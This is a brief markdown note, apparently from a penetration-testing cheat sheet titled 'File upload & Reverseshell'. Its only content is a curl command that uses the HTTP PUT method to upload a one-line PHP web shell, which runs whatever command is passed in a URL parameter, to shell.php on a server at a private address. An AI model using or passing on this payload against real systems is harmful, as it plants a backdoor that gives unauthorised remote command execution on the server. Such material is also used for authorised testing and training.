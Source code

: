 #File upload & Reverseshell

## Curl command to upload a file using PUT METHOD 

curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://192.168.1.9/test/shell.php
